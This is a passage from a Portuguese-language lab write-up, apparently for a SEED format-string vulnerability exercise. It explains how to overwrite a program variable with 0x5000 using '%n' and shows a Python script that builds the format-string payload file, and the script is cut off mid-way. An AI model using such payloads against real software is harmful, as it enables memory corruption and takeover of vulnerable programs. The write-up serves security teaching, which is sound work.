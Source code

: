 ```python
with open('badfile', 'wb') as f:
  f.write(content)
```

Ao executar o script obtemos então o seguinte resultado:

![Task3A](images/task3a.png)

Deste modo conseguimos alterar o valor de *target*.

### Task 3.B: Change the value to 0x5000
Para esta alínea tivemos de mudar um pouco a forma como estamos a "montar" a string de formatação. Para alterar o valor de *target* especificamente para *0x5000*, decidimos usar o "%n" que basicamente imprime o valor de chars escritos antes de aparecer. Desta forma, temos de escrever 5000 chars antes do endereço de target para depois pudermos usar o "%n" para escrever *0x5000* no endereço de target. Deste modo obtemos o seguinte script de python:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.300x "*62 + "%.1810x%n"

# The line shows how to store the string s at offset 8
```